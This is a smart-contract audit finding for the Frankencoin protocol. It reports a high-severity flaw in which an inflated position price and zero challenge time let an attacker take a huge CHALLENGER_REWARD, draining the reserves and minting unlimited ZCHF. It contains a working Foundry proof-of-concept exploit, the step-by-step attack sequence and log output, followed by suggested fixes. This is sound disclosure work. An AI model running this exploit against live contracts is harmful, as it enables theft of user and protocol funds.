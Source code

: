 ## Tags

- bug
- 3 (High Risk)
- primary issue
- selected for report
- sponsor confirmed
- H-06

# [CHALLENGER_REWARD can be used to drain reserves and free mint](https://github.com/code-423n4/2023-04-frankencoin-findings/issues/458) 

# Lines of code

https://github.com/code-423n4/2023-04-frankencoin/blob/1022cb106919fba963a89205d3b90bf62543f68f/contracts/MintingHub.sol#L265


# Vulnerability details

## Impact
The goal of the auction mechanism is to determine the fair price of the collateral, so that Frankencoin (ZCHF) is always sufficiently backed and the system remains in balance. 

If the challenge is successful, the bidder gets the collateral from the position and the position is closed, distributing excess proceeds to the reserve and paying a reward to the challenger.

The reward for the challenger is based on the user provided price and can be abused to have the protocol pay unlimited rewards.

## Proof of Concept
When a challenge ends without being Averted, the [end()](https://github.com/code-423n4/2023-04-frankencoin/blob/1022cb106919fba963a89205d3b90bf62543f68f/contracts/MintingHub.sol#L252) function can be called to process the liquidation.
This process pays back the minted `ZCHF` tokens with the bid and sends the collateral to the bidder. The challenger receives back the collateral he supplied when starting the challenge, and receives a `CHALLENGER_REWARD` of 2% of the challenged collateral value in `ZCHF`.

To calculate the value of the reward, it uses
[uint256 reward = (volume * CHALLENGER_REWARD) / 1000_000;](https://github.com/code-423n4/2023-04-frankencoin/blob/1022cb106919fba963a89205d3b90bf62543f68f/contracts/MintingHub.sol#L265) with `volume` being the `volumeZCHF` value returned from [Position.notifyChallengeSucceeded()](https://github.com/code-423n4/2023-04-frankencoin/blob/1022cb106919fba963a89205d3b90bf62543f68f/contracts/Position.sol#L329)        
This is calculated as  
`uint256 volumeZCHF = _mulD18(price, _size);` 
`// How much could have minted with the challenged amount of the collateral` 
meaning that if the price is very high, the theoretical volumeZCHF  will be very high too.

When there are insufficient funds in the Position to pay for the reward, `FrankenCoin.notifyLoss()` is used to get the funds from the reserve and mint new coins.

The price of a Position can be set when it is created, or later by the owner via an adjustPrice call.
The steps to take: 
1. Position owner mints the maximum ZCHF.
2. Position owner adjusts price and sets it to a very large value.
3. owner immediately starts a challenge via MintingHub
with price being very high, if there are bids, they will never pass the AvertChallenge check of `_bidAmountZCHF * ONE_DEC18 >= price * _collateralAmount` so the Challenge will always succeed.
4. After the challenge period, the end()  function can be called, and Challenger will receive a high amount of ZCHF as a fee.   

 
An alternative and faster way is to create a new position and immediately challenge it.
When creating a Position, `_challengeSeconds` can be set to 0 and calling `launchChallenge` is possible before Position start waiting time is over. This makes it possible for any user to drain all reserves and mint a large number of ZCHF in 1 transaction.
        
### POC script
A proof of concept testscript is created to demonstrate the vulnerability.
This code was added to `GeneralTest.t.sol`   

```solidity
    function showBalances() public {
        address hacker = 0xBaDbaDBAdBaDBaDbaDbABDbAdBAdBaDbADBadB01;
        console.log('================ Balances ================');
        console.log('hacker xchf     :',xchf.balanceOf(hacker)/1e18);
        console.log('hacker zchf     :',zchf.balanceOf(hacker)/1e18);
        console.log('reserver zchf   :',zchf.balanceOf(address(zchf.reserve()))/1e18);
        console.log('zchf.totalSupply:',zchf.totalSupply()/1e18);
        console.log(' ');
    }

    function test10AbuseChallengeReward() public {

        test04Mint(); // let bob/alice open position so not all is empty 

        // init, start wit 2 xchf and 1000 zhf
        address hacker = 0xBaDbaDBAdBaDBaDbaDbABDbAdBAdBaDbADBadB01;
        TestToken xchf_ = TestToken(address(swap.chf()));
        xchf_.mint(address(hacker), 1002 ether);

        vm.startPrank(hacker);
        xchf_.approve(address(swap),  1000 ether);
        swap.mint(1000 ether);
        showBalances(); 

        // open a position with fake inflated price and dummy collateral. 
        // _challengeSeconds to 0 so we can immediately challenge and end
        xchf_.approve(address(hub),  1 ether); // collateral
        zchf.approve(address(hub),  1000 ether); // 1000 OPENING_FEE
        address myPosition = hub.openPosition(
            address(xchf_), // _collateralAddress,
            1 ether,        // _minCollateral
            1 ether,        // _initialCollateral
            1000 ether,     // _mintingMaximum
            3 days,         // _initPeriodSeconds minimum perios
            10 days,        // _expirationSeconds
            0,              // _challengeSeconds set to 0 to immediately challenge and end 
            0,              //_mintingFeePPM, 
            type(uint256).max / 1e20,  // _liqPrice - huge inflated price
            0               // _reservePPM
        );
        console.log('Creates our Position with inflated price, 1000 opening fee to reserves 1 xchf as collateral');
        showBalances();

        console.log('Start launchChallenge and immediately end the auction.');
        console.log('We will receive the 1 xchf collateral back');
        console.log('and 2% of inflated collateral price in zchf as CHALLENGER_REWARD');
        console.log('zchf is first taken all from reserve, and rest minted');
        xchf_.approve(address(hub),  1 ether); // collateral
        uint256 challengeID = hub.launchChallenge(myPosition, 1 ether);
        hub.end(challengeID);
        showBalances(); 
        vm.stopPrank();

    }
```

The results of the test

```
[PASS] test10AbuseChallengeReward() (gas: 3939346)
Logs:
  ================ Balances ================
  hacker xchf     : 2
  hacker zchf     : 1000
  reserver zchf   : 23500
  zchf.totalSupply: 102000

  We have creates our Position with inflated price
  ================ Balances ================
  hacker xchf     : 1
  hacker zchf     : 0
  reserver zchf   : 24500
  zchf.totalSupply: 102000

  Start launchChallenge and immediately end the auction.
  We will receive the 1 xchf collateral back
  and 2% of inflated collateral price in zchf as CHALLENGER_REWARD
  zchf is first taken all from reserve, and rest minted
  ================ Balances ================
  hacker xchf     : 2
  hacker zchf     : 23158417847463239084714197001737581570
  reserver zchf   : 0
  zchf.totalSupply: 23158417847463239084714197001737659070
```

## Tools Used
manual review, forge

## Recommended Mitigation Steps
it would be recommeded to restrict the moments when challenges can be started so Positions cannot be challenged before start time and when they are denied.
This will make challenges only possible when a position once was valid, with a valid price.
To prevent owners to change the price of their Position to an extremenly large value, it can be limited to change the price max x% per adjustment. 